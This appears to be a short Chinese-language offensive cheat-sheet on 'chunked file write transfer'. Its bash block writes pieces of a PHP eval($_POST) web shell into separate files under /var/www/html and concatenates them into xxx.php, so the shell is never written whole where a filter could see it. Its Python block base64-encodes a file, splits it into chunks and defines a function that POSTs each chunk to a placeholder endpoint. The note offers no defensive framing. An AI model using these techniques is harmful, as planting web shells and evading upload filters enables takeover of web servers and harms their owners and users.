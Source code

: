   



# 文件写入分块传输

### Linux

```bash
echo -e -n \"<?php \" > /var/www/html/1.txt
echo -e -n \"eval\" > /var/www/html/2.txt
echo -e -n '($_POST[\"pass' > /var/www/html/3.txt
echo -e -n '\"])' > /var/www/html/4.txt
echo -e -n \" ?>\" > /var/www/html/5.txt
cat /var/www/html/1.txt /var/www/html/2.txt
/var/www/html/3.txt /var/www/html/4.txt
/var/www/html/5.txt> /var/www/html/xxx.php
```

### python分块传输

```python
import requests
import base64

def encode_file_to_base64(file_path, output_path):
    """将文件内容转化为Base64字符串并保存到新文件中。"""
    with open(file_path, 'rb') as file:
        file_content = file.read()
    base64_encoded = base64.b64encode(file_content).decode('utf-8')
    with open(output_path, 'w', encoding='utf-8') as output_file:
        output_file.write(base64_encoded)

def read_text_from_file(file_path):
    """从文件中读取Base64字符串内容。"""
    with open(file_path, 'r', encoding='utf-8') as file:
        text = file.read()
    return text

def split_text(text, chunk_size=100):
    """将文本按每chunk_size个字符分割。"""
    return [text[i:i + chunk_size] for i in range(0, len(text), chunk_size)]

def send_post_requests(url, text_chunks):
    """遍历每个分割后的文本并发送POST请求。"""
    responses = []
    for chunk in text_chunks:
        response = requests.post(url, data={'body': chunk})
        responses.append(response)
    return responses

# 示例用法
original_file_path = "path/to/your/file"  # 要编码的文件路径
base64_file_path = "path/to/your/base64_output.txt"  # 存储Base64编码的文件路径
url = "http://your_api_endpoint_here"

# 1. 将文件内容转换为Base64并保存到新文件中
encode_file_to_base64(original_file_path, base64_file_path)

# 2. 从Base64文件中读取内容
base64_text = read_text_from_file(base64_file_path)

# 3. 分割Base64字符串
text_chunks = split_text(base64_text, chunk_size=100)

```